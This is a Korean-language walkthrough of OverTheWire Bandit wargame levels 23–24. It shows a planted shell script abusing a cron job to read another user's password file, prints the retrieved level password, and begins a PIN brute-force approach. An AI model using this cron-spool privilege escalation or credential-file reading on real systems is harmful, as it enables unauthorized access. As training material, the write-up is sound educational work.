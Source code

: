 ## bandit23 (풀이 봄)
```
A program is running automatically at regular intervals from cron, 
the time-based job scheduler. 
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. 
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, 
        so you may want to keep a copy around…
```
```shell
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:/tmp/level23$ vi level23.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/level23/flag

bandit23@bandit:/tmp/level23$ chmod 777 level23.sh
bandit23@bandit:/tmp/level23$ cp level23.sh /var/spool/bandit24
```
이런 식으로 하려 했으나 level23 디렉토리의 권한이 bandit23에만 있어서 파일 생성이 불가능.  
```shell
bandit23@bandit:/var/spool/bandit24$ vi a.sh
bandit23@bandit:/var/spool/bandit24$ chmod 777 a.sh
bandit23@bandit:/var/spool/bandit24$ ls -al flag
ls: cannot access 'flag': No such file or directory
bandit23@bandit:/var/spool/bandit24$ ls -al flag
-rw-r--r-- 1 bandit24 bandit24 33 Jul 13 13:13 flag
bandit23@bandit:/var/spool/bandit24$ cat flag
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## bandit24 (풀이 참고)
```
A daemon is listening on port 30002 and will give you the password for bandit25 
if given the password for bandit24 and a secret numeric 4-digit pincode. 
There is no way to retrieve the pincode 
except by going through all of the 10000 combinations, called brute-forcing.
```
**<a href="https://recipes4dev.tistory.com/153" target="_blank">소켓 프로그래밍</a>**을 하여 풀 수 있음.  
<a href="https://seolin.tistory.com/97" target="_blank">파이썬으로 소켓 코딩</a>  
```shell
bandit24@bandit:~$ telnet localhost 30002
Trying 127.0.0.1...
Connected to localhost.
```